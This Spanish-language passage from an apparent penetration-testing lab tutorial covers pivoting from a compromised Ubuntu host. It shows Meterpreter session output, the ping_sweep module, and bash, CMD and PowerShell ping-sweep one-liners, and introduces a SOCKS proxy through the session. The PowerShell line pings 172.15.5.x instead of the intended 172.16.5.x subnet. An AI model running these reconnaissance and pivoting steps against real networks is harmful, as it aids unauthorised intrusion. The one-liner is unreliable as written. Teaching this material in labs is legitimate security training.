 ### Meterpreter Session Establishment

```r
[*] Sending stage (3020772 bytes) to 10.129.202.64
[*] Meterpreter session 1 opened (10.10.14.18:8080 -> 10.129.202.64:39826 ) at 2022-03-03 12:27:43 -0500
meterpreter > pwd

/home/ubuntu
```

Sabemos que el objetivo de Windows está en la red 172.16.5.0/23. Suponiendo que el firewall en el objetivo de Windows permite solicitudes ICMP, queremos realizar un ping sweep en esta red. Podemos hacerlo usando Meterpreter con el módulo `ping_sweep`, que generará el tráfico ICMP desde el host Ubuntu a la red `172.16.5.0/23`.

### Ping Sweep

```r
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23

[*] Performing ping sweep for IP range 172.16.5.0/23
```

También podríamos realizar un ping sweep usando un `for loop` directamente en un host pivotante objetivo que hará ping a cualquier dispositivo en el rango de red que especifiquemos. Aquí hay dos one-liners útiles de ping sweep que podríamos usar para hosts pivotantes basados en Linux y Windows.

### Ping Sweep For Loop on Linux Pivot Hosts

```r
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```

### Ping Sweep For Loop Using CMD

```r
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
```

### Ping Sweep Using PowerShell

```r
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}
```

Nota: Es posible que un ping sweep no resulte en respuestas exitosas en el primer intento, especialmente cuando se comunica a través de redes. Esto puede ser causado por el tiempo que toma a un host construir su caché arp. En estos casos, es bueno intentar nuestro ping sweep al menos dos veces para asegurar que la caché arp se construya.

Podrían haber escenarios en los que el firewall de un host bloquee el ping (ICMP), y el ping no nos dé respuestas exitosas. En estos casos, podemos realizar un escaneo TCP en la red 172.16.5.0/23 con Nmap. En lugar de usar SSH para el reenvío de puertos, también podemos usar el módulo de enrutamiento post-explotación de Metasploit `socks_proxy` para configurar un proxy local en nuestro host de ataque. Configuraremos el proxy SOCKS para `SOCKS version 4a`. Esta configuración de SOCKS iniciará un listener en el puerto `9050` y enrutar todo el tráfico recibido a través de nuestra sesión de Meterpreter.
